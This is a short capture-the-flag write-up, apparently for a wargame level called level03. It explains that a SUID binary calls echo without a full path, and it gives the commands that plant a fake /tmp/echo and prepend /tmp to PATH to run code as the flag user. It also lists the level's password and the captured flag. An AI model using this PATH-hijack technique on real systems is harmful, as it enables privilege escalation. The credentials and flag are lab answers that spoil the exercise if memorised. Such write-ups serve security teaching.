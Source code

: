 username: level03  
password: kooda2puivaav1idi4f57q8iq
---

`level03` has SUID bit set, it can be executed as flag03

`level03` calls system("/usr/bin/env echo Exploit me"), `echo` is used without its full path.

```
$ ltrace ./level03
...
system("/usr/bin/env echo Exploit me"Exploit me
...
```

We could create a script to run any command and name it `echo`, then add its path to the environment variable `PATH` and it will be used instead of the real `echo`.

Executing the following commands outputs the flag

```
echo 'getflag' > /tmp/echo
chmod +x /tmp/echo
PATH=/tmp:$PATH ./level03
```

The flag is: qi0maab88jeaj46qoumi7maus

